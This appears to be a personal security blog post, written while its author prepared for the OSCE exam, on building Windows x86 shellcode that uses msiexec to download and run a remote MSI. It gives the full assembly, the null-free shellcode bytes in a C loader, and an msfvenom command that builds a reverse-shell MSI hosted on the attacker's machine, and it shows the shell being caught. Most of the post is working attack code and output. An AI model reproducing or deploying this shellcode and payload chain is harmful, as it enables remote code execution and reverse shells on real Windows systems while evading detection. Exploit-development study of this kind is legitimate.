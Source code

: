 ```yaml
---
layout: post
title: WINDOWS SHELLCODE – DOWNLOAD AND EXECUTE PAYLOAD USING MSIEXEC
excerpt_separator: <!--more-->
---
```


Hello and welcome! Today I will be sharing a shellcode that came across my mind when I was preparing for my OSCE exam, so this inspired me to write and share my knowledge on how I developed a shellcode for windows to download and execute a remote payload using windows installer(msiexec.exe).
<!--more-->

The objective for this shellcode was to obtain code execution on my target machine from the following command line, also make sure that shellcode is small in size and NULL free:

```
msiexec /i http://server/package.msi /qn
```

Typically, windows installer is used to install software or a patch, but we can take advantage of this built in windows tool to download and execute remote payload in the background while avoiding detection.

To achieve the above objective, I started searching for windows functions and came across a system API which takes only one parameter and that is our command line itself. We will first load msvcrt.dll library dynamically and then use system() to execute the above command line.

Reference: [System()](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/system-wsystem?view=vs-2017)

With all that information, we will collect the address of following functions using arwin:

* LoadLibraryA and ExitProcess can be found in kernel32.dll, and system() can be found in msvcrt.dll. Here is the output from arwin on my WIN7 box:

![](/media/arwin.jpg)

Now that we have address of the required functions, our first step is to load msvcrt.dll dynamically with the help of  LoadLibraryA function and we do that by pushing the name of DLL (in this case msvcrt) and then calling the function LoadLibraryA as below:

```
xor eax, eax          ;Get the msvcrt.dll
mov ax, 0x7472        ;"tr\0\0"
push eax
push dword 0x6376736d ;"cvsm"
push esp

; LoadLibrary
mov ebx, 0x7717de85    ;Address of function LoadLibraryA (win7)
call ebx
mov ebp, eax           ;msvcrt.dll is saved in ebp
```

NOTE: The above snippet can be skipped if the binary/application you are trying to exploit is already loading the msvcrt.dll. (Will reduce the size of shellcode)

After loading the msvcrt.dll, we have to convert the command line to hex and insert them in a inverted order with a NULL byte at the end of string. Once the command line to be executed is pushed, we will call the system() function for its execution.
Here is how I did it:

```
My Command Line: msiexec /i http://192.168.1.3/ms.msi /qn

"ms.msi" hosted on my attacking box with local IP "192.168.1.3".
```

The above command line was converted to hex and pushed on to the stack as below: 

```
xor eax, eax      ;zero out EAX
PUSH eax	  ;NULL at the end of string
PUSH 0x6e712f20   ;"nq/ "
PUSH 0x69736d2e   ;"ism."
PUSH 0x736d2f33   ;"sm/3"
PUSH 0x2e312e38   ;".1.8"
PUSH 0x36312e32   ;"61.2"
PUSH 0x39312f2f   ;"91//"
PUSH 0x3a707474   ;":ptt"
PUSH 0x6820692f   ;"h i/"
PUSH 0x20636578   ;" cex"
PUSH 0x6569736d   ;"eism"
MOV EDI,ESP       ;adding a pointer to the stack
PUSH EDI
MOV EAX,0x7587b177 ;calling the system()(win7)
CALL EAX
```

The last part is to make sure that our shellcode exit properly by adding the following instructions at the bottom:

```
xor eax, eax
push eax
mov eax, 0x7718be52  ; ExitProcess
call eax
```

### FINAL ASSEMBLY CODE:

```
xor eax, eax             ;Get the msvcrt.dll
mov ax, 0x7472           ;"tr\0\0"
push eax
push dword 0x6376736d    ;"cvsm"
push esp

; LoadLibrary
mov ebx, 0x7717de85      ;Address of function LoadLibraryA (win7)
call ebx
mov ebp, eax             ;msvcrt.dll is saved in ebp

xor eax, eax             ;zero out EAX
PUSH eax                 ;NULL at the end of string
PUSH 0x6e712f20          ;"nq/ "
PUSH 0x69736d2e          ;"ism."
PUSH 0x736d2f33          ;"sm/3"
PUSH 0x2e312e38          ;".1.8"
PUSH 0x36312e32          ;"61.2"
PUSH 0x39312f2f          ;"91//"
PUSH 0x3a707474          ;":ptt"
PUSH 0x6820692f          ;"h i/"
PUSH 0x20636578          ;" cex"
PUSH 0x6569736d          ;"eism"
MOV EDI,ESP              ;adding a pointer to the stack
PUSH EDI
MOV EAX,0x7587b177       ;calling the system()(win7)
CALL EAX

xor eax, eax
push eax
mov eax, 0x7718be52     ; ExitProcess
call eax
```

___

### THE FINAL SHELLCODE:

```
==> Compiling the assembly code
nasm -f win32 C:\Users\JBOY\Desktop\deb.asm -o C:\Users\JBOY\Desktop\deb.o
==> Extracting the shellcode
objdump -d deb.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
==>Our final shellcode

#include<stdio.h>
#include<string.h>

char code[] = "\x31\xc0\x66\xb8\x72\x74\x50\x68\x6d\x73\x76\x63\x54\xbb\x85\xde\x17\x77\xff\xd3\x89\xc5\x31\xc0\x50\x68\x20\x2f\x71\x6e\x68\x2e\x6d\x73\x69\x68\x33\x2f\x6d\x73\x68\x38\x2e\x31\x2e\x68\x32\x2e\x31\x36\x68\x2f\x2f\x31\x39\x68\x74\x74\x70\x3a\x68\x2f\x69\x20\x68\x68\x78\x65\x63\x20\x68\x6d\x73\x69\x65\x89\xe7\x57\xb8\x77\xb1\x87\x75\xff\xd0\x31\xc0\x50\xb8\x52\xbe\x18\x77\xff\xd0";

int main(int argc, char **argv)
{
int (*func)();
func = (int (*)()) code;
(int)(*func)();
}
```

### COMPILING AND EXECUTING THE FINAL SHELLCODE:

“ms.msi” hosted on my attacking box:

```
#Reverse shell payload generated using metasploit(msfvenom):
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.3 LPORT=443 EXITFUNC=seh -f msi > /var/www/html/ms.msi
```

![](/media/msfvenom-msi.jpg)

```
==> Compiled the final shellcode after hosting "ms.msi":
gcc C:\Users\JBOY\Desktop\deb.c -o C:\Users\JBOY\Desktop\deb.exe
```

Once the “deb.exe” is executed:

![](/media/rev-shell-deb-exe.jpg)

BINGO.. A reverse shell from my WIN7 box!!!!

Objectives achieved:

* Shellcode is null free.
* Only 95 bytes in size.
* Target IP and the address of windows API’s can be easily configured.
* Register independent
* Supports windows platforms from XP to latest. 🙂

Link to shellcode.c: [download_execute_msiexec.c](https://github.com/kartikdurg/Windowsx86-Shellcode/blob/master/MSIEXEC/download_execute_msiexec.c)

Link to shellcode.asm: [download_execute_msiexec.asm](https://github.com/kartikdurg/Windowsx86-Shellcode/blob/master/MSIEXEC/download_execute_msiexec.asm)

Exploit-DB: [https://www.exploit-db.com/shellcodes/46281](https://www.exploit-db.com/shellcodes/46281)

Thank you for reading 🙂

– Kartik Durg